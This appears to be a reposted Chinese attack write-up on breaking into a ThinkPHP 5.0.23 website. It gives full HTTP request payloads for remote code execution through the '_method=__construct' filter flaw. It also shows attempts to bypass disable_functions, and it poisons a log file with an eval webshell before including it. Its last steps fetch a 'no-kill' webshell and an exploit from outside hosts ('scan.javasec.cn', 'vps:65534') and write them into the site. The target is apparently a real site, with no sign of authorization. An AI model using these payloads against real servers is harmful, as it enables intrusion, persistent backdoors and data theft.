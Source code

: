 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/9-Jhkfhsr5Z0Z-hBWMOPRw)

**信息收集**
--------

由于网站 www.a.com/admin，访问立即跳转到 www.a.com/admin/publicer/login

发现是 TP，5.0.23，在漏洞的版本范围内，尝试使用:

index.php?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=phpinfo&vars\[1\]\[\]=1s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=id

\_method=\_\_construct&filter\[\]=system&method=GET&get\[\]=id

发现都不行，而且开启了 pathinfo, 明明在版本范围内，payload 打不成功怎么办

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zNZR3wMGSWArCsaj9prGVr3VF1OiaMcWBlmicfU63HWWHhzo3yrEts1tA/640?wx_fmt=png)

查看验证码，继续使用 index.php?s=captcha 查看发现访问成功，change method,post，发现执行 system，返回 500，var\_dump 发现可以返回，说明代码能够执行成功  

```
POST /?s=captcha HTTP/1.1
Host: vulnhost
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_14\_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

\_method=\_\_construct&method=get&filter\[\]=var\_dump&server\[REQUEST\_METHOD\]=1&get\[\]=2
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zpeYnXsxbzacnT59EGebSwXFr2RYxtEq05MXlnP1d6rUYBhTEbD1DhQ/640?wx_fmt=png)

查看 phpinfo:  

```
POST /?s=captcha HTTP/1.1
Host: vulnhost
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_14\_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

\_method=\_\_construct&method=get&filter\[\]=phpinfo&server\[REQUEST\_METHOD\]=1&get\[\]=4
```

查看相关的信息后，disable\_functions：

```
passthru,exec,system,putenv,chroot,chgrp,chown,shell\_exec,popen,proc\_open,pcntl\_exec,ini\_alter,ini\_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl\_alarm,pcntl\_fork,pcntl\_waitpid,pcntl\_wait,pcntl\_wifexited,pcntl\_wifstopped,pcntl\_wifsignaled,pcntl\_wifcontinued,pcntl\_wexitstatus,pcntl\_wtermsig,pcntl\_wstopsig,pcntl\_signal,pcntl\_signal\_dispatch,pcntl\_get\_last\_error,pcntl\_strerror,pcntl\_sigprocmask,pcntl\_sigwaitinfo,pcntl\_sigtimedwait,pcntl\_exec,pcntl\_getpriority,pcntl\_setpriority,imap\_open,apache\_setenv
```

目录知道的信息如下：  

thinkphp 5.0.23  
/www/wwwroot/vulhost/public/index.php  
禁用函数  
php 7.2.18，没办法 assert  
open\_basedir /www/wwwroot/vulhostcn/:/tmp/:/proc/  
首先想到的是，更新其他函数尝试，以及一些 bypass 绕过 disable\_functions，但是 payload 目前只能传入一个参数，并且还限制了很多函数.

```
\_method=\_\_construct&method=get&filter\[\]=think\\\_\_include\_file&server\[\]=-1&get\[\]=/tmp/sess\_asd
  \_method=\_\_construct&method=get&filter\[\]=think\\Session::set&get\[\]=<?php x?>
```

发现不成功，可能 session 位置不对，查看 phpinfo:

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zWfsv2NNANokhPIynwc9GMSfiarTf4SRCYPicsbQN6X97nwUlRbz4v9cw/640?wx_fmt=png)

发现吧 session 写到了 redis 里，那尝试 redis 来 getshell 试试：

```
\_method=\_\_construct&method=get&filter\[\]=think\\\_\_include\_file&server\[REQUEST\_METHOD\]=../data/runtime/log/202004/04.log&c=curl\_exec(curl\_init("dict://127.0.0.1:6379/info"));
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4zbbrB8oUmHWvbMficy7IqC9CMP7ibsGE3GKecnxbuwaYVse52JYicJGLYw/640?wx_fmt=png)

失败告终，尝试其他办法  

发现 readfile 是可以的，先读取 index.php 确定文件路径

```
\_method=\_\_construct&method=get&filter\[\]=readfile&server\[REQUEST\_METHOD\]=/www/wwwroot/vulhost/public/index.php
```

通过读取 index.php

确定路径，读取 log

```
\_method=\_\_construct&method=get&filter\[\]=readfile&server\[REQUEST\_METHOD\]=/www/wwwroot/vulhostcn/data/runtime/log/202004/04.log
\_method=\_\_construct&method=get&filter\[\]=call\_user\_func&server\[REQUEST\_METHOD\]=<?php eval($\_POST\['c'\]);?>
\_method=\_\_construct&method=get&filter\[\]=think\\\_\_include\_file&server\[REQUEST\_METHOD\]=../data/runtime/log/202004/04.log&c=phpinfo();
```

文件包含成功，此漏洞详情可 查看 https://xz.aliyun.com/t/6106

至此就基本上搞定了

传免杀 shell:

```
file\_put\_contents("/www/wwwroot/vulnstcn/debug.php",file\_get\_contents("http://scan.javasec.cn/xxxxx"))
```

查看目录文件：

```
\_method=\_\_construct&method=get&filter\[\]=think\\\_\_include\_file&server\[REQUEST\_METHOD\]=../data/runtime/log/202004/04.log&c=print\_r(scandir("/www/wwwroot/vulhostcn/public/"));
```

bypass disable\_functions, 参考：https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass

```
\_method=\_\_construct&method=get&filter\[\]=think\\\_\_include\_file&server\[REQUEST\_METHOD\]=../data/runtime/log/202004/04.log&c=file\_put\_contents("/www/wwwroot/vulhostcn/public/themes/admin\_themes/3.php",file\_get\_contents("http://vps:65534/exploit.php"));
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2yqxwSXicicJiatWkGvAvvu4z6YDT4PI6IUKia2vLHW5xxDicrAtJxLOalDtSqjRGnJMJ8c4iaKnfCOpsw/640?wx_fmt=png)

fpm 方式利用:

fpm 没有使用 tcp 的方式，而是使用了 unix 的 socket

```
$sock = stream\_socket\_client('unix:///tmp/php-fcgi.sock',$errno,$errstr);
```

redis 后 自己在 shell 里上传个 so 实现的命令执行等等，不过都是一些方向上的思路，可以以后尝试。

作者：sevck，文章来源：先知社区

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)